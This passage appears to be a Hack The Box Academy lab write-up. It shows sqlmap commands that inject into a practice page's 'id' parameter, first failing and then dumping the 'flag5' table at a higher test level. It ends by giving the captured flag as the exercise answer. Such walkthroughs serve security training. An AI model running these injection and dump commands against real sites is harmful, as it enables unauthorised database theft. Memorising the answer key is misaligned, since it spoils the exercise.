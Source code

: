 ```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case5.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case5.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --dump

[SNIP]

[05:35:29] [WARNING] URI parameter '#1*' does not seem to be injectable
[05:35:29] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
❌

[SNIP]
```

```javascript
 --batch -T flag5 --dump --no-cast --level 3
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case5.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case5.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag5 --dump --no-cast --level 3

[SNIP]

Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+

[SNIP]
```

**Answer**

```
HTB{700_much_r15k_bu7_w0r7h_17}
```

#### Question #05
